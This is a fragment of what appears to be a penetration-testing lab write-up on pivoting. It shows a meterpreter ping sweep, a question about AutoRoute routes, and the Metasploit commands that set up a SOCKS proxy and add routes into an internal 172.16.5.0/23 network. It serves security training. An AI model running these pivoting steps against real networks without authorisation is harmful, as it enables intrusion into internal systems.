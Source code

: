 meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
[+] 	172.16.5.19 host found
[+] 	172.16.5.129 host found
	```
2. Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format: x.x.x.x/x.x.x.x)
```shell
Use meterpreter as a proxy:
msf6 > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf auxiliary(server/socks_proxy) > run

Now we can set proxychains.conf.
Then lets create route with msf:
run autoroute -s 172.16.5.0/23 (Or with use post/multi/manage/autoroute)
run autoroute -p
```
